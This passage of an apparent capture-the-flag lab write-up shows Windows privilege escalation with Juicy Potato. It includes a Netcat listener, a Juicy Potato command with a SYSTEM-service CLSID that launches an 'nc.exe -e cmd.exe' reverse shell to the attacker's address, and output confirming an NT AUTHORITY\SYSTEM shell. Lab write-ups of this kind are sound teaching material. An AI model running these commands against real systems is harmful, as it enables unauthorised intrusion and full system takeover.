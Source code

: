 ```
```

Now that we have the files we need, we can go ahead and set up a Netcat listener. We are going to use `rlwrap` with Netcat. `rlwrap` is a 'readline wrapper', a small utility that uses the [GNU Readline](https://tiswww.case.edu/php/chet/readline/rltop.html) library to allow the editing of keyboard input for any command.

```
rlwrap nc -lvnp 9001
```

Juicy Potato takes a handful of arguments to run correctly. If you want to read more into it, please look into the GitHub repo [here](https://github.com/ohpe/juicy-potato) where a good amount of documentation is done on the exploit. Something I do want to note though is the `-c` option. `-c` is specifying a certain `CLSID` which is a software applications class ID or "class identifier". CLSIDs are `.NET classes` and the CLSIDs we are going to use refer to services that are running as `SYSTEM`. We essentially are impersonating a service by supplying a `CLSID` of a service that is running with higher privileges than us, that being `SYSTEM`. A list of `CLSIDs` can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID). Personally for me, I had to go through a few `CLSIDs` that are running as `NT AUTHORITY\SYSTEM` to get it to work but the one that did work is `{03ca98d6-ff5d-49b8-abc6-03dd84127020}` so I went ahead and ran with that. 

```
c:\Windows\Temp>.\Juicy.Potato.x86.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.36 9001" -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"
```

Checking back on the Netcat listener we successfully got a shell back and we are indeed `NT AUTHORITY\SYSTEM`! 

```
$ rlwrap nc -lvnp 9001            
listening on [any] 9001 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.5] 49173
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```



